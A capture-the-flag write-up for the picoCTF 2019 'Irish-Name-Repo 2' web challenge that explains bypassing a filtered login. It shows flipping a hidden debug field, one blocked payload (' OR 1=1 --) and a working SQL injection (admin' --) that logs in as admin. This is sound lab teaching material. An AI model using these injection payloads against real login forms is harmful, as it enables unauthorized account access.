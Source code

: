 # Irish-Name-Repo 2

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 350
Tags: picoCTF 2019, Web Exploitation
Author: XINGYANG PAN

Description:
There is a website running at https://jupiter.challenges.picoctf.org/problem/64649/. 

Someone has bypassed the login before, and now it's being strengthened. 
Try to see if you can still login! 

http://jupiter.challenges.picoctf.org:64649

Hints:
1. The password is being filtered.
```

## Solution

Browse to the web site and click on the menu-button in the upper left corner.  
Select `Admin Login` and you get redirected to `/login.html`.

Right-click on the background and select `View page source` in the menu (or press `CTRL + U`) to get the HTML-source.
```html
<!doctype html>
<html>
<head>
    <title>Login</title>
    <link rel="stylesheet" type="text/css" href="//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <div class="panel panel-primary" style="margin-top:50px">
                <div class="panel-heading">
                    <h3 class="panel-title">Log In</h3>
                </div>
                <div class="panel-body">
                    <form action="login.php" method="POST">
                        <fieldset>
                            <div class="form-group">
                                <label for="username">Username:</label>
                                <input type="text" id="username" name="username" class="form-control">
                            </div>
                            <div class="form-group">
                                <label for="password">Password:</label>
                                <div class="controls">
                                    <input type="password" id="password" name="password" class="form-control">
                                </div>
                            </div>
                            <input type="hidden" name="debug" value="0">

                            <div class="form-actions">
                                <input type="submit" value="Login" class="btn btn-primary">
                            </div>
                        </fieldset>
                    </form>
                </div>
            </div>
        </div>
    </div>
</div>
</body>
</html>
```

As in the [previous challenge](Irish-Name-Repo_1.md) there is a hidden field named `debug` with the value of `0`. (`<input type="hidden" name="debug" value="0">`)  

Lets change this value to `1` with DevTools.  
Press `F12` to open DevTools, then navigate to the form in the `Elements` tab.  
Right-click on the value to change it.

Lets first try to login with username `admin` and password `' OR 1=1 --` as before. This returns
```
username: admin
password: ' OR 1=1 --
SQL query: SELECT * FROM users WHERE name='admin' AND password='' OR 1=1 --'

SQLi detected.
```
As stated in the hint the password field is filtered.

Now lets try to login with username `admin' --` and password `whatever` instead. This returns
```
username: admin' --
password: whatever
SQL query: SELECT * FROM users WHERE name='admin' --' AND password='whatever'
Logged in!

Your flag is: picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [Wikipedia - SQL injection](https://en.wikipedia.org/wiki/SQL_injection)
